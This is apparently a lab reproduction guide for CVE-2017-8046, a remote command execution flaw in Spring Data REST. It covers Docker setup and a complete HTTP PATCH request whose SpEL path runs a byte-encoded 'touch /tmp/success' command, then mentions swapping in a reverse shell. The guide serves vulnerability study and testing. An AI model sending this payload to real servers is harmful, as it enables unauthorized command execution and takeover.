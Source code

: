 # Spring Data Rest Remote Command Execution Vulnerability (CVE-2017-8046)

Spring Data REST is built on top of Spring Data to help developers develop RESTful web services more easily. In the REST API's patch method (implementation [RFC6902] (https://tools.ietf.org/html/rfc6902)), the value of path is passed to `setValue`, causing the execution of the SpEL expression, triggering remote command execution. Vulnerabilities.

Reference link:

- http://xxlegend.com/2017/09/29/Spring%20Data%20Rest Server PATCH Request Remote Code Execution Vulnerability CVE-2017-8046 Supplementary Analysis /
- https://tech.meituan.com/Spring_Data_REST_Remote Code Execution Vulnerability%28CVE-2017-8046%29_Analysis and Reproduction.html

## Environment Building

Run the following command to start the vulnerability environment:

```
Docker-compose up -d
```

Wait for the environment to start, then visit `http://your-ip:8080/` to see the return value of the json format, indicating that this is a Restful-style API server.

## Vulnerability recurrence

Visit `http://your-ip:8080/customers/1` to see a resource. We use the PATCH request to modify it:

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112, 47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]

```

The value of path is a SpEL expression. Sending the above packet will execute the command `touch /tmp/success` represented by `new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}`. Then go into the container `docker-compose exec spring bash` and see:

![](1.png)

Visible, success was successfully created.

Change the bytecode to a command to bounce the shell (note: [Java bounce shell restrictions and bypasses] (http://jackson.thuraisamy.me/runtime-exec-payloads.html)), successfully bounced back:

![](2.png)